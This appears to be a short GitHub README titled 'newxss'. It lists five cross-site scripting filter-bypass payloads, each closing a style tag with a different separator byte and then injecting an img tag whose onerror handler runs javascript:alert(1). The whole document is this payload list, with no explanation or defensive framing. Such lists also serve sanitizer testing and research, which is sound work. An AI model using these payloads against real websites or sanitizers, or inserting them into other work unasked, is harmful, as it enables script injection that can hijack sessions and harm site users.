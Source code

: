 # newxss


<style></style\x3E<img src="about:blank" onerror=javascript:alert(1)//></style>

<style></style\x0D<img src="about:blank" onerror=javascript:alert(1)//></style>

<style></style\x09<img src="about:blank" onerror=javascript:alert(1)//></style>

<style></style\x20<img src="about:blank" onerror=javascript:alert(1)//></style>

<style></style\x0A<img src="about:blank" onerror=javascript:alert(1)//></style>
